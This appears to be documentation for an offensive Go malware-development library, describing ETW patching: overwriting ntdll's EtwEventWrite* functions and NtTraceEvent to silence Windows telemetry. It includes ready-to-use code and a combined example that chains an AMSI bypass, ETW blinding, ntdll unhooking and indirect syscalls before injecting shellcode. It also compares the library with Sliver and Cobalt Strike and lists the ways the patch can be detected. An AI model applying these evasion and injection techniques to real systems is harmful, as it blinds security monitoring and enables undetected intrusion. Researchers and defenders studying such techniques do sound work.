

# ETW Patching

> **MITRE ATT&CK:** T1562.001 -- Impair Defenses: Disable or Modify Tools | **D3FEND:** D3-EAL -- Execution Activity Logging | **Detection:** Medium

## For Beginners

Think of security cameras in a building. They record everything that happens: who enters, who exits, what they carry. Even if you get past the front door, the cameras capture your movements. Now imagine you replace the live camera feed with a still image of an empty hallway. The security monitors show nothing happening. Guards watching the screens see an empty, quiet building while you move freely.

ETW (Event Tracing for Windows) is the operating system's built-in telemetry framework. It is the camera system for Windows. When a process calls certain APIs, allocates memory, creates threads, or loads DLLs, ETW events are generated. Security products consume these events to detect malicious behavior. Even if you bypass AMSI and unhook ntdll, ETW can still report what you are doing.

ETW patching overwrites the entry points of the five `EtwEventWrite*` functions in `ntdll.dll` with `xor rax, rax; ret` (`48 33 C0 C3`). This makes every ETW write call return `STATUS_SUCCESS` without actually logging anything. An additional patch targets `NtTraceEvent`, a lower-level function used by some providers. After patching, the process generates zero ETW telemetry.

## How It Works



**Patch details:**

- **Byte sequence:** `48 33 C0 C3` -- `xor rax, rax` (zero the return register) + `ret` (return immediately).
- **Functions patched:** Five `EtwEventWrite*` variants in ntdll, plus `NtTraceEvent` as a lower-level fallback.
- **Skip logic:** Functions not present on the current OS version (e.g., older Windows) are silently skipped.
- **Memory protection:** Each patch uses `VirtualProtect` (or `NtProtectVirtualMemory` via Caller) to make the code page writable, writes the 4 bytes, and restores the original protection.

## Usage

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion/etw"
)

func main() {
    // Patch all 5 EtwEventWrite* functions.
    if err := etw.Patch(nil); err != nil {
        log.Fatal(err)
    }

    // Or patch everything including NtTraceEvent.
    if err := etw.PatchAll(nil); err != nil {
        log.Fatal(err)
    }
}
```

## Combined Example

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
    "github.com/oioio-space/maldev/evasion/unhook"
    "github.com/oioio-space/maldev/inject"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    caller := wsyscall.New(wsyscall.MethodIndirect,
        wsyscall.Chain(wsyscall.NewHellsGate(), wsyscall.NewHalosGate()))

    // Layer evasion: AMSI → ETW → selective unhook.
    techniques := []evasion.Technique{
        amsi.ScanBufferPatch(),
        etw.All(),                                    // blind ETW
        unhook.Classic("NtAllocateVirtualMemory"),     // unhook allocation
    }
    evasion.ApplyAll(techniques, caller)

    // Inject with full telemetry blinding.
    if err := inject.ThreadPoolExec(shellcode); err != nil {
        log.Fatal(err)
    }
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | Medium -- patching ntdll is detectable by integrity checks, but eliminates all ETW-based detection going forward. |
| Effectiveness | High -- completely silences ETW event generation in the process. No events reach consumers. |
| Scope | Process-wide. All ETW providers in the process are silenced. |
| Coverage | 6 functions patched (5 EtwEventWrite variants + NtTraceEvent). Covers both high-level and low-level write paths. |
| OS compatibility | Missing functions are silently skipped (safe on older Windows). |
| Detection vectors | ntdll integrity monitoring, kernel-level ETW consumers (which bypass the patch), periodic memory scanning. |
| Kernel ETW | Does NOT affect kernel-mode ETW providers. Kernel callbacks (e.g., `PsSetCreateThreadNotifyRoutine`) still fire. |

## Compared to Other Implementations

| Feature | maldev | Sliver | CobaltStrike | D3Ext/maldev |
|---------|--------|--------|--------------|--------------|
| Functions patched | 6 (5 EtwEventWrite* + NtTraceEvent) | 1 (EtwEventWrite) | None (profile-based) | 1 (EtwEventWrite) |
| Caller-routed patches | Yes | No | N/A | No |
| Technique interface | `evasion.Technique` | Built-in | N/A | Function |
| Skip missing functions | Yes | No | N/A | No |
| PatchAll convenience | Yes | No | N/A | No |

## API Reference

```go
// Patch patches all 5 EtwEventWrite* functions in ntdll.dll.
// Procs not present on the current OS are silently skipped.
func Patch(caller *wsyscall.Caller) error

// PatchNtTraceEvent patches the lower-level NtTraceEvent function.
func PatchNtTraceEvent(caller *wsyscall.Caller) error

// PatchAll applies both Patch and PatchNtTraceEvent.
func PatchAll(caller *wsyscall.Caller) error

// Technique constructor for use with evasion.ApplyAll:
func All() evasion.Technique
```
